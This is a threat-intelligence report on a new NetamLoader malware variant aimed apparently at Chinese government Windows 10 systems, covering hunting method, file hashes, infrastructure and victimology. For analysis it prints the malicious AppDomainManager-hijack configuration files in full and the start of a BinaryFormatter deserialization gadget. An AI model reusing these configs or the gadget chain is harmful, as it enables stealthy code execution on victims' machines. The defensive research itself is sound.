# NetamLoader – A new variant and a missing GUID

| Date | Criticality | Version |
|---|---|---|
| November 2, 2026 | MEDIUM | 1.0 |

## Executive Summary

NetamLoader is the XAML-based .NET loading framework that Kaspersky GReAT disclosed on 29 October 2026. Kaspersky attributes it to **an unknown APT targeting a Windows 10 build reserved for Asian government entities**. We identified another CAB file that we associate with high confidence to a **second, previously unreported NetamLoader stage-1 package**.

The package reuses Kaspersky's documented chain:

1.  A signed Patch My PC binary

2.  A Microsoft-signed AppFabric assembly

3.  2 hijacked configuration files

However, it carries a **different malicious Resources.resx**, so its first-stage XAML payload is also new. None of the new hashes appear in Kaspersky's IOC list.

We could recover the first XAML stage; however, the next stage is AES-encrypted with a key derived from the victim's exact command line, which includes a per-deployment -applicationid GUID. The C2 configuration of this variant therefore could not be recovered. This environmental keying indicates **one build per target**.

We tried to pivot and enrich the C2 domain from Kaspersky's sample (openaigpt4v\[.\]com) but without succeeding. The entirety of this chain and its infrastructure appears quite generic, which (hypothetically) would be characteristic of a **highly specific targeting of the organization in Asia**

Kaspersky only said “**Asian government**” and noted the CmitUpdateAgent log path. **CMIT stands for C&M Information Technologies**, the company behind Windows 10 China Government Edition.

In August 2026, China’s Ministry of State Security **ordered certain state organizations to remove a specialized, government-only build of Windows 10 from their systems**.

This CAB was first uploaded on 11 September 2026, about three weeks later. That would **fit a timeline where defenders in China are hunting on those machines at the time**.

While it cannot be proven, it is highly probable that the victims are indeed **Chinese state entities**. Even though the delivery method was not identified, a few hints can allow us to formulate hypotheses:

1.  The CAB lands in SoftwareDistribution\Download

2.  The loader deletes GetExtendedUpdateInfoHandler lines from the CMIT update agent’s logs

3.  Both samples are uploaded from China on VirusTotal

Together these point to delivery through the **CMIT-managed update path** (could be a compromised update server or some kind of man-in-the-middle delivery attack). This APT and its associated infection chain remain quite mysterious, and there is no doubt that we will continue to hear more about them in the coming months with potentially further details emerging.

## Summary

- [Executive Summary](#executive-summary)
- [Background: the Kaspersky NetamLoader report](#background-the-kaspersky-netamloader-report)
- [Discovery of the new sample](#discovery-of-the-new-sample)
  - [Hunting hypothesis](#hunting-hypothesis)
  - [VirusTotal query](#virustotal-query)
  - [File analysis](#file-analysis)
- [Had Kaspersky already identified this sample?](#had-kaspersky-already-identified-this-sample)
- [Technical analysis of this variant](#technical-analysis-of-this-variant)
  - [Package content](#package-content)
  - [Loading mechanism](#loading-mechanism)
  - [Resources.resx: BinaryFormatter gadget](#resourcesresx-binaryformatter-gadget)
  - [XAML-1: command-line-keyed decryptor](#xaml-1-command-line-keyed-decryptor)
- [Infection chain overview](#infection-chain-overview)
- [Infrastructure](#infrastructure)
- [Victimology and hypothesis](#victimology-and-hypothesis)
- [Detection and hunting](#detection-and-hunting)
  - [YARA](#yara)
  - [Endpoint hunting](#endpoint-hunting)
- [IOCs](#iocs)
- [References](#references)

## Background: the Kaspersky NetamLoader report

On 29 October 2026 Kaspersky GReAT published "Unknown APT uses NetamLoader to attack a Win10 OS customized for governments in Asia"[^1]. The investigation began in the first half of 2026 with an alert on a .config file that used AppDomainManager injection to load an arbitrary .NET payload.

The file was packaged inside a CAB named after its SHA-1 (e4537a17…) in the Windows Update download cache, C:\Windows\SoftwareDistribution\Download\\

Kaspersky's main findings are summarised below.

| **Stage**             | **Reported by Kaspersky**                                                                                                                                                                                                                                                                                                                                                                                    |
|-----------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Delivery              | Not observed. Seven files extracted from the CAB to …\Download\Install\\ then PatchMyPC-ScriptRunner.exe -updatepackage -applicationid=\<GUID\>. Kaspersky infers a supply-chain attack on a government-only Windows 10 build.                                                                                                                                                                               |
| Stage 1 – step 1      | AppDomainManager injection: PatchMyPC-ScriptRunner.exe.config loads Microsoft.ApplicationServer.Caching.DataCacheFactoryConfiguration from the Microsoft-signed Microsoft.HostIntegration.Connectors.dll.                                                                                                                                                                                                    |
| Stage 1 – step 2      | DataCacheFactoryConfiguration reads fabric.config. Its customType instantiates System.Resources.ResXResourceSet("Resources.resx"), and BinaryFormatter deserialization (TypeConfuseDelegate) calls XamlReader.Parse on XAML-1.                                                                                                                                                                               |
| Stage 1 – step 3      | XAML-1 decrypts XAML-2 with AES. The key is SHA-256 of the lowercased command line. Any error causes a silent Environment.Exit(0).                                                                                                                                                                                                                                                                           |
| Stage 2               | XAML-2-1 bypasses AMSI (vtable patch of CAmsiAntimalware::Scan). XAML-2-2 holds the .NET 1 Loader and the JSON-1 C2 configuration. The loader runs anti-forensics: it deletes the stage-1 files, CLR UsageLogs and Prefetch, and filters GetExtendedUpdateInfoHandler lines from CmitUpdateAgent logs. It also sets COMPlus_ETWEnabled=0 and pivots via an RPC/COM deserialization into dllhost.exe (XAML-3) |
| Final payload         | .NET 2 Plugin: 20–40 min jitter, 22–28 h polling, ~28 h watchdog, AES-128-CBC + HMAC-SHA256 traffic, proxy discovery, and C2-supplied XAML executed in an isolated AppDomain.                                                                                                                                                                                                                                |
| Infrastructure        | C2 https\[:\]//openaigpt4v\[.\]com/model_v4/\<id\> behind Cloudflare (104.18.14\[.\]219), first seen 27 Sep 2023.                                                                                                                                                                                                                                                                                            |
| Victims / attribution | One victim in Asia (KSN), presumed government. No link to a known APT group.                                                                                                                                                                                                                                                                                                                                 |

Kaspersky published 11 MD5 hashes and 1 SHA-1 (CAB, Resources.resx, .NET 1 Loader, .NET 2 Plugin, fabric.config, PatchMyPC-ScriptRunner.exe.config and five XAML layers), three file paths and one domain. Its detection names are HEUR:Trojan.MSIL.NetamLoader.gen, Trojan.MSIL.Zapchast.\* and Trojan.Script.Agent.\*.

## Discovery of the new sample

### Hunting hypothesis

In Kaspersky's case, six of the seven files in the stage-1 CAB are static. The legitimate binaries and both hijack configurations contain no victim-specific data: **only Resources.resx carries the payload**. An operator who reuses the same staging set for each target will produce CABs whose hashes all differ but whose **file directory stays the same**. That directory is therefore a hash-independent hunting pivot.

### VirusTotal query

We therefore conducted research to see whether it was possible to identify new CAB files containing the same packaged files (or filenames). Surprisingly, this single search was successful, and we identified a file that did not appear to be in Kaspersky's IOCs list.



*Figure 1 : https://www.virustotal.com/gui/search?query=content:"PatchMyPC-ScriptRunner.exe" fs:2025-01-01+&section=IoCs&type=files*

### File analysis

In a Microsoft CAB file, the data blocks are compressed. This CAB uses LZX (compression type 0x1203), so nothing inside the files can be matched. The **CFFILE directory (file descriptor), however, stores file names uncompressed** at the start of the archive.



*Figure 2 : https://www.omnizip.org/cabriolet/reference/formats/cab-specification/*

Parsing the header confirms that both strings sit in that directory: fabric.config at offset 0x3C and PatchMyPC-ScriptRunner.exe.config at offset 0x106.

The pairing is highly specific: fabric.config is the configuration file of the Windows Server AppFabric cache client, **which has no reason to ship alongside the PatchMyPC script runner**.



*Figure 3 : CAB file header (hex editor)*

We therefore extracted the description and timestamps for each file from the CFFILE descriptor:

| **CFFILE entry**                         | **Size (bytes)** | **CAB timestamp**       | **Attr.**          |
|------------------------------------------|------------------|-------------------------|--------------------|
| fabric.config                            | 242              | 2025-04-03 22:02:52     | 0x00               |
| Microsoft.HostIntegration.Connectors.dll | 5,285,776        | 2025-04-03 22:02:52     | 0x00               |
| PatchMyPC-Enum.dll                       | 25,336           | 2025-04-03 22:02:52     | 0x00               |
| PatchMyPC-Models.dll                     | 239,352          | 2025-04-03 22:02:52     | 0x00               |
| PatchMyPC-ScriptRunner.exe               | 215,288          | 2025-04-03 22:02:52     | 0x00               |
| PatchMyPC-ScriptRunner.exe.config        | 546              | 2025-04-03 22:02:52     | 0x00               |
| **Resources.resx**                       | **205,071**      | **2025-11-04 09:52:50** | **0x20 (ARCHIVE)** |

Resources.resx is the only entry **with a different date** and with the ARCHIVE attribute set.



*Figure 4 : resources.resx timestamp (hex editor)*

This is only a hypothesis, but we believe this might be consistent with a payload that was regenerated multiples times and dropped into an unchanged staging folder before the CAB was rebuilt.

## Had Kaspersky already identified this sample?

Six independent checks were run, and all indicate that the sample is not part of Kaspersky's public reporting.

|  |  |
|:---:|:---:|
| *Figure 5 : CAB content of the sample Kaspersky analysed* | *Figure 6 : CAB content of the sample we identified* |

The CAB, its **Resources.resx** and its **XAML-1 (we will investigate that later)** had not been publicly identified by Kaspersky as of November 2, 2026. Kaspersky detects the family heuristically (HEUR:Trojan.MSIL.NetamLoader.gen) and reports one victim.

As this file only have 1 detection on VirusTotal (and from Kaspersky) under “Trojan.Script.Agent.mlkp”, we believe this IOC could be part of a close source / TLP:AMBER report that was not publicly disclosed.



*Figure 7 : https://www.virustotal.com/gui/file/6089c68554a181003f3b5d1e767bbaaa2511f28c7690301f1d82c86cfc7bd072/detection*

## Technical analysis of this variant

### Package content

| **File**                                 | **SHA-256**                                                      | **vs Kaspersky**               |
|------------------------------------------|------------------------------------------------------------------|--------------------------------|
| CAB (container)                          | 6089c68554a181003f3b5d1e767bbaaa2511f28c7690301f1d82c86cfc7bd072 | **New**                        |
| Resources.resx                           | d787e1a3ce7cc678babcac74d20d1abd3c544defdf928f23673d9ebd7a5d37b6 | **New**                        |
| XAML-1 (decoded, memory-only)            | b275d1d4e6d0d4387f0ae7100c03baf361437173aa1e9047065974d3e8d473e4 | **New**                        |
| fabric.config                            | ad8c0958ca194795153979fc9eb3edc4795c5db6fc306219061f8423e6d1fde9 | Identical                      |
| PatchMyPC-ScriptRunner.exe.config        | ea2aa07883796c4cf3b8b61559b37f7354d21716e44df3216d0c3300b251378e | Identical                      |
| Microsoft.HostIntegration.Connectors.dll | 87f40dca7ebee69b374a844232bcfa14d57253d3572d70e32ccf5d23c8c71fca | Legitimate (MS signature blob) |
| PatchMyPC-ScriptRunner.exe               | b9ddd9b1d1a6b1b483b0c25df97b365e06e66ce4d05bb119798a047866df2997 | Legitimate (DigiCert EV blob)  |
| PatchMyPC-Models.dll                     | c8172dda46361d4acdddc6ccca966cfd1ce9cbbd0e7e6513e10493c8dfb6ed1d | Legitimate (DigiCert EV blob)  |
| PatchMyPC-Enum.dll                       | 99f8723b80bf7877455872d5e7a54b0de73207e65c6c6e960afc7fa1d3bd006c | Legitimate (DigiCert EV blob)  |

### Loading mechanism

The host configuration is identical to Kaspersky's. It redirects the CLR AppDomainManager to an AppFabric configuration class:

```xml
<?xml version="1.0" encoding="utf-8" ?>
<configuration>
<runtime>
<appDomainManagerType value="Microsoft.ApplicationServer.Caching.DataCacheFactoryConfiguration"></appDomainManagerType>
<appDomainManagerAssembly value="Microsoft.HostIntegration.Connectors, Version=1.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35"></appDomainManagerAssembly>
<NGenAssemblyUsageLog enabled="0" />
</runtime>
<startup>
<supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.6" />
</startup>
</configuration>
```

That class loads fabric.config from the working directory. The customType element makes it instantiate an arbitrary type with the argument: ResXResourceSet("Resources.resx"):

```xml
<?xml version="1.0" encoding="utf-8"?>
<section name="foo">
<customType className="System.Resources.ResXResourceSet, System.Windows.Forms, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089(Resources.resx)" />
</section>
```

What’s interesting is that the Microsoft AppFabric caching client code (ClientConfigReader) takes an arbitrary file path and loads that file as a full .NET configuration file via OpenMappedExeConfiguration. NetamLoader abuses this to load its own fabric.config.



*Figure 8 : ClientConfigReader constructor*

### Resources.resx: BinaryFormatter gadget

The .resx file holds a nameless object (\<data name="" mimetype="application/x-microsoft.net.object.binary.base64"\>) whose Base64 starts with the same BinaryFormatter header as previously documented by Kaspersky[^2].

```xml
  <resheader name="reader">
    <value>System.Resources.ResXResourceReader, System.Windows.Forms, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089</value>
  </resheader>
  <resheader name="writer">
    <value>System.Resources.ResXResourceWriter, System.Windows.Forms, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089</value>
  </resheader>
  <data name="" mimetype="application/x-microsoft.net.object.binary.base64">
    <value>
        AAEAAAD/////AQAAAAAAAAAEAQAAABxTeXN0ZW0uQ29sbGVjdGlvbnMuQXJyYXlMaXN0AwAAAAZfaXRl
        bXMFX3NpemUIX3ZlcnNpb24FAAAICAkCAAAAAQAAAAEAAAAQAgAAAAQAAAAJAwAAAA0DDAQAAABJU3lz
        dGVtLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVj
        NTYxOTM0ZTA4OQUDAAAAhAFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Tb3J0ZWRTZXRgMVtbU3lz
        dGVtLk9iamVjdCwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJs
        [...]
```

The decoded blob contains the type names of the TypeConfuseDelegate gadget and a XAML document. When ResXResourceSet deserializes the object, SortedSet sorts its elements with a Comparison delegate[^3] whose target has been swapped for XamlReader.Parse. The XAML-1 string is therefore parsed and executed: **no PE file is written and only signed code runs**.



*Figure 9 : decoded blob, shows the deserialization gadget chain*



*Figure 10 : start of the \<ResourceDictionary (XAML-1 string)*

### XAML-1: command-line-keyed decryptor

XAML-1 builds C#-equivalent logic from ObjectDataProvider elements. It contains no compiled code: the logic is written entirely in XAML markup, using ObjectDataProvider elements to call .NET methods one by one.

| **Parameter**    | **Value (new variant)**                                      |
|------------------|--------------------------------------------------------------|
| Key              | SHA-256 of the UTF-8 bytes of lower(Environment.CommandLine) |
| Cipher           | AES-256-CBC (128-bit block), PKCS7                           |
| IV / ciphertext  | Blob bytes 0–15 of XAML-2                                    |
| Failure handling | Silent Environment.Exit(0) (anti-sandbox)                    |

It runs inside the legitimate hijacked PatchMyPC-ScriptRunner.exe process and derives its AES key from that process’s own command line (the exact path) the “-updatepackage” and “-applicationid=\<GUID\>” arguments used on the victim host. It is a completely legitimate Patch My PC parameter set, and the threat actor chooses it **per target**.



*Figure 11 : PatchMyPC-ScriptRunner.exe argument list (-updatepackage argument)*



*Figure 12 : PatchMyPC-ScriptRunner.exe argument list (-applicationid argument)*

**A difficult line to cross**

The key depends on the exact command line, including the path quoting, the spacing and the -applicationid GUID that Kaspersky redacted. We tested many candidates command lines without success.

The GUID is probably not secret on a victim system. It appears in the process creation event of PatchMyPC-ScriptRunner.exe and probably in the update-package metadata of the WSUS/ConfigMgr catalog. We could only recover the XAML-2 file with the correct GUID. However, guessing it or using a brute-force approach is virtually impossible within our current setup.

This limitation means that we are (for the time being) unable to identify any potential C2 that might be hidden within this configuration.

## Infection chain overview



*Figure 13 : NetamLoader infection chain overview*

## Infrastructure

We tried to pivot and enrich the C2 domain from Kaspersky's sample (openaigpt4v\[.\]com) but without succeeding. The entirety of this chain and its infrastructure appears quite generic, which (hypothetically) would be characteristic of a **highly specific targeting of the organization in Asia**.

| Date | Observation (openaigpt4v.com) |
|---|---|
| 27/09/2023 | Registered at Cloudflare Registrar; first CT certificates, with 63 certificates in total up to 2026-09-29. |
| 01/10/2023 | WordPress site "OpenAI GPT-4V \| ChatGPT PLUS帐号出售" (Chinese: "ChatGPT Plus accounts for sale"). |
| 22/07/2025 | Last-Modified of the later decoy page |
| 08/08/2026 | Static decoy page "NextGen AI LLM – Coming soon!". Its six resources (HTML, CSS, JS, 3 PNG) were seen on no other website. |
| 28/08/2026 | Last RDAP change. |
| 29/10/2026 | Cloudflare 522: origin unreachable, after publication |



*Figure 14 : openaigpt4v\[.\]com decoy page captured (08/08/2026)*

The 2023 Chinese-language resale content may predate the current operator or be cover and gives no basis for attribution. The C2 sits behind Cloudflare and the IP 104.18.14\[.\]219 is a shared edge address and must not be blocked or used for pivoting.

## Victimology and hypothesis

Kaspersky only said “**Asian government**” and noted the CmitUpdateAgent log path.

**CMIT stands for C&M Information Technologies**, the company behind Windows 10 China Government Edition. Microsoft and CETC formed a joint venture to license the operating system to government agencies and state-owned enterprises. CMIT also provides product activation, **patch management**, **deployment** **services** and product support to these government customers.

